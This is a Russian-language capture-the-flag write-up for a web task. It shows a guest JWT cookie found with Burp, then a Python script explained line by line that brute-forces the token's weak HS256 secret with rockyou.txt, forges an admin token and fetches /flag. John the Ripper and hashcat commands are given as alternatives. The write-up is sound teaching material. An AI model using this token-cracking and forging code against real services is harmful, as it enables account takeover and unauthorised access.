




# Лысина админа 🌐

## Описание задачи

Задача: **Лысина админа**

Сложность: 

Описание с платформы:

> Как же обойти защиту сервера и стать лысым админом?

Адрес задания:

```text
tasks.duckerz.ru:30056
```

Скрин с названием и описанием задачи:



---

## Первый взгляд 👀

При открытии сайта видим обычную форму авторизации:



На странице есть два поля:

```text
Логин
Пароль
```

И важная подсказка под формой:

```text
Вы можете авторизоваться в качестве гостя: guest:guest
```

То есть на первом этапе у нас уже есть тестовая учетная запись гостя.

---

## Что это нам дает

Подсказка `guest:guest` означает, что первым делом стоит войти как обычный пользователь и посмотреть, как приложение отличает гостя от админа.

Для web-задач такого типа обычно важно проверить:

- какие запросы отправляются при логине;
- какие cookies или токены выдает сервер;
- есть ли роль пользователя в ответе или в сессии;
- какие страницы доступны после входа;
- отличается ли поведение `GET` и `POST` запросов;
- есть ли прямой путь к админской части.

На этом этапе мы не подбираем пароль администратора, а начинаем с легитимного входа по данным, которые прямо указаны на странице.

---

## Анализ запросов в Burp 🧪

После входа под гостем смотрим HTTP-запросы в Burp Suite.

Запрос авторизации:



В Burp видно, что при логине отправляется `POST`-запрос на `/login` с JSON-телом:

```json
{
  "username": "guest",
  "password": "guest"
}
```

Сервер отвечает:

```json
{
  "message": "Login successful"
}
```

Самое важное находится не в JSON-ответе, а в заголовке ответа:

```text
Set-Cookie: jwt=...
```

То есть после успешного входа сервер выдает cookie с названием `jwt`.

---

## Почему это похоже на JWT

JWT расшифровывается как **JSON Web Token**.

Обычно такой токен используется для хранения информации о пользователе после входа:

- кто пользователь;
- какая у него роль;
- когда токен был выдан;
- когда токен истекает;
- можно ли ему открывать защищенные страницы.

JWT часто выглядит как длинная строка из трех частей, разделенных точками:

```text
header.payload.signature
```

То есть если cookie имеет вид:

```text
jwt=xxxxx.yyyyy.zzzzz
```

это сильная зацепка, что внутри может лежать JSON с данными пользователя.

---

## Проверка страницы с флагом

Дальше в Burp видим запрос к `/flag`:



Запрос отправляется уже с cookie:

```text
Cookie: jwt=...
```

Ответ сервера:

```json
{
  "message": "Only user 'admin' have access to this page!"
}
```

Это очень важная подсказка.

Сервер не говорит, что мы вообще не авторизованы. Он говорит, что доступ есть только у пользователя `admin`.

Значит, логика примерно такая:

```text
1. Пользователь логинится как guest.
2. Сервер выдает JWT.
3. При запросе /flag сервер читает JWT.
4. Если внутри токена пользователь admin, то отдает флаг.
5. Если внутри токена guest, то пишет ошибку доступа.
```

Поэтому основной вектор на этом этапе: изучить содержимое JWT и проверить, можно ли подделать данные внутри токена.

---

## Разбор JWT

Для решения был написан скрипт:

```text
forge_admin_jwt.py
```

Запуск:

```bash
python3 forge_admin_jwt.py --wordlist /Users/antonmoiseyev/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

В начале скрипт показывает содержимое гостевого JWT:

```text
[+] Guest JWT header:
{
  "alg": "HS256",
  "typ": "JWT"
}

[+] Guest JWT payload:
{
  "user": "guest"
}
```

Здесь видно две важные вещи.

Первая:

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

`alg` показывает алгоритм подписи токена. `HS256` означает **HMAC-SHA256**.

Проще говоря, сервер подписывает токен секретной строкой. Если мы изменим payload с `guest` на `admin`, но не пересчитаем подпись правильным секретом, сервер такой токен не примет.

Вторая:

```json
{
  "user": "guest"
}
```

В payload лежит имя пользователя. А раньше `/flag` уже подсказал:

```text
Only user 'admin' have access to this page!
```

Значит цель понятная:

```text
user=guest  ->  user=admin
```

Но для этого нужно знать JWT-secret, которым сервер подписывает токены.

---

## Как работает скрипт 🐍

В начале подключаются модули:

```python
import argparse
import base64
import hashlib
import hmac
import json
import urllib.request
```

Что они делают:

- `argparse` нужен, чтобы передавать параметры из командной строки, например путь к wordlist;
- `base64` нужен для кодирования и декодирования частей JWT;
- `hashlib` дает SHA256;
- `hmac` нужен для расчета HMAC-подписи;
- `json` нужен для работы с header и payload как с JSON;
- `urllib.request` нужен, чтобы в конце отправить запрос на `/flag` прямо из скрипта.

В скрипте есть гостевой токен:

```python
GUEST_JWT = (
    "header."
    "payload."
    "signature"
)
```

В README полный токен не вставляю, потому что важен не сам набор символов, а принцип: это JWT, который сервер выдал после входа `guest:guest`.

---

## base64url в JWT

JWT использует не обычный base64, а **base64url**.

Разница в том, что base64url безопаснее для URL и cookies:

- вместо `+` используется `-`;
- вместо `/` используется `_`;
- символы `=` в конце обычно убираются.

Поэтому в скрипте есть функция:

```python
def b64url_encode(data):
    return base64.urlsafe_b64encode(data).rstrip(b"=").decode()
```

Разбор:

```python
base64.urlsafe_b64encode(data)
```

кодирует байты в base64url.

```python
.rstrip(b"=")
```

убирает `=` справа, потому что JWT обычно хранит части без padding.

```python
.decode()
```

переводит результат из bytes в обычную строку Python.

Для обратной операции:

```python
def b64url_decode(data):
    padding = "=" * (-len(data) % 4)
    return base64.urlsafe_b64decode(data + padding)
```

Тут важный момент: base64 должен иметь длину, кратную 4. JWT часто убирает `=`, поэтому перед декодированием мы возвращаем недостающий padding.

Формула:

```python
(-len(data) % 4)
```

считает, сколько символов `=` нужно добавить, чтобы длина снова стала кратной 4.

---

## Проверка секрета

Подпись JWT считается не от одного payload, а от двух первых частей токена:

```text
header.payload
```

В скрипте это делает функция:

```python
def make_signature(header_b64, payload_b64, secret):
    message = f"{header_b64}.{payload_b64}".encode()
    digest = hmac.new(secret.encode(), message, hashlib.sha256).digest()
    return b64url_encode(digest)
```

Разбор:

```python
message = f"{header_b64}.{payload_b64}".encode()
```

Собираем строку, которую нужно подписать. Именно так устроен JWT: подпись защищает header и payload.

```python
hmac.new(secret.encode(), message, hashlib.sha256)
```

Создаем HMAC:

- `secret.encode()` — секретный ключ в байтах;
- `message` — данные, которые подписываются;
- `hashlib.sha256` — хеш-функция для `HS256`.

```python
.digest()
```

возвращает сырые байты подписи.

```python
return b64url_encode(digest)
```

переводит подпись в такой же формат, как третья часть JWT.

---

## Брут секрета по rockyou.txt

Чтобы понять, подходит ли слово из словаря, скрипт берет гостевой токен и пересчитывает подпись с этим словом:

```python
def check_secret(token, secret):
    header_b64, payload_b64, real_signature = token.split(".")
    test_signature = make_signature(header_b64, payload_b64, secret)
    return hmac.compare_digest(test_signature, real_signature)
```

```python
token.split(".")
```

делит JWT на три части:

```text
header
payload
signature
```

```python
test_signature = make_signature(...)
```

создает подпись так, как ее создал бы сервер.

```python
hmac.compare_digest(test_signature, real_signature)
```

сравнивает подписи. Используется именно `compare_digest`, потому что это правильный способ сравнивать криптографические значения: он не делает ранний выход при первом отличающемся символе.

Сам перебор:

```python
def crack_secret(token, wordlist_path):
    with open(wordlist_path, "rb") as wordlist:
        for number, line in enumerate(wordlist, 1):
            secret = line.strip().decode("utf-8", errors="replace")

            if check_secret(token, secret):
                return secret

            if number % 1_000_000 == 0:
                print(f"[+] Checked {number} words")

    return None
```

```python
open(wordlist_path, "rb")
```

открывает словарь в бинарном режиме. Это удобно для больших словарей: строки читаются как bytes, а потом аккуратно декодируются.

```python
enumerate(wordlist, 1)
```

перебирает строки и параллельно считает их номер. `1` означает, что счет начинается с единицы.

```python
line.strip()
```

убирает перенос строки в конце слова.

```python
.decode("utf-8", errors="replace")
```

переводит bytes в строку. `errors="replace"` нужен, чтобы скрипт не упал, если в словаре встретятся странные байты.

```python
if number % 1_000_000 == 0:
```

каждый миллион проверенных слов выводит прогресс.

В результате секрет был найден в `rockyou.txt`.

---

## Создание admin JWT

Когда secret найден, можно собрать новый токен:

```python
def make_admin_jwt(secret):
    header = {"alg": "HS256", "typ": "JWT"}
    payload = {"user": "admin"}

    header_b64 = b64url_encode(json.dumps(header, separators=(",", ":")).encode())
    payload_b64 = b64url_encode(json.dumps(payload, separators=(",", ":")).encode())
    signature = make_signature(header_b64, payload_b64, secret)

    return f"{header_b64}.{payload_b64}.{signature}"
```

Header оставляем таким же:

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

Payload меняем:

```json
{
  "user": "admin"
}
```

`json.dumps(..., separators=(",", ":"))` нужен, чтобы JSON получился компактным, без лишних пробелов:

```json
{"user":"admin"}
```

Это важно, потому что подпись считается от точной строки. Если добавить или убрать пробелы, base64-часть изменится, и подпись тоже должна быть другой.

После этого скрипт подписывает новый payload найденным secret и получает валидный JWT для пользователя `admin`.

---

## Получение флага

Финальный запрос делает функция:

```python
def get_flag(url, admin_jwt):
    request = urllib.request.Request(url)
    request.add_header("Cookie", f"jwt={admin_jwt}")

    with urllib.request.urlopen(request, timeout=10) as response:
        return response.read().decode()
```

```python
urllib.request.Request(url)
```

создает HTTP-запрос к `/flag`.

```python
request.add_header("Cookie", f"jwt={admin_jwt}")
```

добавляет cookie с поддельным, но правильно подписанным admin JWT.

```python
urllib.request.urlopen(request, timeout=10)
```

отправляет запрос.

```python
response.read().decode()
```

читает ответ сервера и переводит его из bytes в строку.

Итоговый вывод скрипта:

```text
[+] Secret found: ********
[+] Forged admin JWT:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
[+] Requesting flag: http://tasks.duckerz.ru:30056/flag
{"message":"DUCKERZ{...}"}
```

Флаг получен, но в writeup явно не вставляется.

---

## Альтернатива через John

Этот же JWT можно взломать не своим Python-скриптом, а через **John the Ripper**.

Сначала сохраняем JWT в формат, который понимает John:

```bash
python3 jwt2john.py 'JWT_ОТ_GUEST' > jwt.hash
```

Что происходит:

- `jwt2john.py` разбирает JWT;
- достает из него header, payload и signature;
- приводит данные к формату, с которым John умеет работать;
- результат сохраняется в файл `jwt.hash`.

Дальше запускаем John со словарем:

```bash
john --wordlist=/Users/antonmoiseyev/SecLists/Passwords/Leaked-Databases/rockyou.txt jwt.hash
```

Что значит команда:

- `john` — запускает John the Ripper;
- `--wordlist=...` — указывает словарь для перебора;
- `jwt.hash` — файл с подготовленным JWT-хешем.

Проверить найденный secret:

```bash
john --show jwt.hash
```

После найденного секрета можно подписать новый токен с payload:

```json
{"user":"admin"}
```

и отправить его в cookie `jwt`.

---

## Альтернатива через hashcat

Для hashcat JWT с `HS256` обычно используется режим:

```text
16500
```

Команда:

```bash
hashcat -m 16500 'JWT_ОТ_GUEST' /Users/antonmoiseyev/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

Разбор:

- `hashcat` — запускает hashcat;
- `-m 16500` — режим для JWT;
- `'JWT_ОТ_GUEST'` — токен, который нужно проверить;
- `rockyou.txt` — словарь возможных секретов.

Показать найденный secret:

```bash
hashcat -m 16500 'JWT_ОТ_GUEST' --show
```

Логика такая же, как в Python-скрипте:

```text
1. Берется guest JWT.
2. Из словаря берется кандидат в secret.
3. hashcat пересчитывает HS256-подпись.
4. Если подпись совпала, secret найден.
5. С найденным secret можно подписать новый admin JWT.
```

---

## Итог

Суть задачи:

```text
guest:guest -> JWT с user=guest -> слабый HS256 secret -> новый JWT с user=admin -> /flag
```

Главная ошибка приложения в рамках задачи: сервер использует JWT с секретом, который находится обычным словарным перебором.

---

## Текущий статус

Задача решена.

Флаг получен через:

- вход по данным `guest:guest`;
- анализ JWT в Burp;
- подбор HS256-secret по словарю `rockyou.txt`;
- создание нового JWT с `user=admin`;
- запрос `/flag` с поддельной cookie;
- проверку альтернативных подходов через John the Ripper и hashcat.

Сам флаг в writeup не публикуется.

---

Автор: **masquadd :)** ✍️
